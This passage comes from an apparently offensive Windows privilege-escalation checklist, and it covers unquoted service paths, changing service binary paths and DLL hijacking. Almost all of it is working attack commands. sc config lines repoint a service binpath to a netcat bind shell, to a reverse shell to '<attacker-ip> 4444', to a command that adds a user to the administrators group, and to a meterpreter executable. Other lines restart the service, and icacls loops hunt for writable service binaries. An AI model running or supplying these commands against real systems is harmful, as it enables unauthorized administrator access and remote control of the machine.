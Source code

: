     * [ ] Unquoted Service Path

    ```
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\" |findstr /i /v ""
     wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\system32\" |findstr /i /v "" #Not only auto services
     gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '*'} | select PathName,DisplayName,Name
    ```

    *   [ ] Change service binary path

        ```
         # if the group "Authenticated users" has SERVICE_ALL_ACCESS
         # it can modify the binary path
         # bind shell
         sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

         # reverse shell
         sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe <attacker-ip> 4444 -e cmd.exe"

         # add user to local admin group
         sc config <Service_Name> binpath= "net localgroup administrators username /add"

        # example using SSDPRV
         sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"

         # then restart the service
         wmic service NAMEOFSERVICE call startservice
         net stop [service name] && net start [service name]
        ```
    *   [ ] DLL Hijacking / Overwrite service binary

        ```
         for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt
        for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"

         # do it by using sc
         sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
         FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
         FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
        ```
    *   [ ] Registry modify permissions
